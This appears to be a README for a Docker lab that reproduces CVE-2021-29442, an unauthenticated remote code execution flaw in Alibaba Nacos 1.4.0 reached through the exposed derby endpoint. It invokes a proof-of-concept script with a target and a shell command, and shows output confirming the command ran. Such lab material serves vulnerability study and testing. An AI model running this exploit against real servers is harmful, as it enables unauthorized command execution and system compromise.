

# Alibaba Nacos Authentication Bypass and Remote Code Execution (CVE-2021-29442)

[中文版本(Chinese version)](README.zh-cn.md)

Nacos is an easy-to-use platform designed for dynamic service discovery and configuration and service management.

In the Nacos version before 1.4.1, some API endpoints such as `/nacos/v1/cs/ops/derby` are not protected and can be openly accessed by unauthenticated users. Attackers are able to execute arbitrary SQL statement and Java code.

References:

- <https://github.com/advisories/GHSA-xv5h-v7jh-p2qh>
- <https://github.com/alibaba/nacos/issues/4463>
- <https://github.com/ayoundzw/nacos-poc>
- <http://www.lvyyevd.cn/archives/derby-shu-ju-ku-ru-he-shi-xian-rce>

## Vulnerable environment

Execute following command to start a Alibaba Nacos 1.4.0:

```
docker compose up -d
```

After server is started, brwose the `http://your-ip:8848/nacos/` you will see the default login page of Nacos.

## Exploit

Execute [POC](poc.py) to exploit the issue, the `-t` parameter specifies the target address, the `-c` parameter specifies the command to be executed:

```
python poc.py -t http://your-ip:8848 -c "ps aux"
```

And you will see the `ps aux` is executed successfully:

```json
{"code":200,"message":null,"data":""}
{"code":200,"message":null,"data":[{"B":0,"A":"USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMANDroot           1  0.0  0.0 814608  4992 ?        Ss   18:47   0:00 [rosetta] /bin/bash /bin/bash bin/docker-startup.shroot          31 25.5  7.5 10414040 1534908 ?    Sl   18:47   1:14 [rosetta] /usr/lib/jvm/java-1.8.0-openjdk/bin/java /usr/lib/jvm/java-1.8.0-openjdk/bin/java -agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=9555 -Xms2g -Xmx2g -Xmn1g -Dnacos.standalone=true -Dnacos.core.auth.enabled=true -Dnacos.member.list= -Djava.ext.dirs=/usr/lib/jvm/java-1.8.0-openjdk/jre/lib/ext:/usr/lib/jvm/java-1.8.0-openjdk/lib/ext:/home/nacos/plugins/health:/home/nacos/plugins/cmdb:/home/nacos/plugins/mysql -Xloggc:/home/nacos/logs/nacos_gc.log -verbose:gc -XX:+PrintGCDetails -XX:+PrintGCDateStamps -XX:+PrintGCTimeStamps -XX:+UseGCLogFileRotation -XX:NumberOfGCLogFiles=10 -XX:GCLogFileSize=100M -Dnacos.home=/home/nacos -jar /home/nacos/target/nacos-server.jar --spring.config.location=/home/nacos/init.d/,file:/home/nacos/conf/,classpath:/,classpath:/config/,file:./,file:./config/ --spring.config.name=application,custom --logging.config=/home/nacos/conf/nacos-logback.xml --server.max-http-header-size=524288root         406  0.0  0.0 854552  5504 ?        R    18:51   0:00 ps aux"}]}
```


